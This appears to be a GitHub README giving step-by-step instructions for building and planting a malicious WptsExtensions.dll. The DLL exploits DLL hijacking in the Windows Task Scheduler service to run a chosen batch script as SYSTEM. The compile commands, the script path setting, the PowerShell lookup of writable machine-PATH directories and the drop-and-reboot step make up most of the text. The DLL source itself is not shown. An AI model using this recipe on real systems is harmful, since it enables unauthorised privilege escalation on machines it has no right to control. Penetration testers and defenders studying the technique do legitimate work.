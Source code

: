 ## WptsExtensions.dll for exploiting DLL Hijacking (task scheduler)  
  
- Load x64 visual studio environnement variables:  
```
"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars64.bat"
```
  
- Update the ```TCHAR script[]``` variable with a writable SYSTEM path where the DLL will be looked for.  
  Check this [tool](https://github.com/itm4n/PrivescCheck) to find ones.
  
- Go inside your source dir and run (BUILD MANUALLY to avoid unwanted dependencies):  
```
cl /LD /MT /EHa dllmain.cpp /Fe:WptsExtensions.dll
```
  
- Update bat script path:  
```
const TCHAR script[] = TEXT("C:\\Python27\\script.bat"):  
```
  
- Drop the DLL and script.bat in your writable directory (from the machine PATH)
```
powershell -Command "[System.Environment]::GetEnvironmentVariable('PATH','Machine')"
```
  
- Reboot  
  
Tool to use during your privesc:  
[https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)  
  
Articles:  
[https://itm4n.github.io/windows-dll-hijacking-clarified/](https://itm4n.github.io/windows-dll-hijacking-clarified/)  
[http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html](http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html)
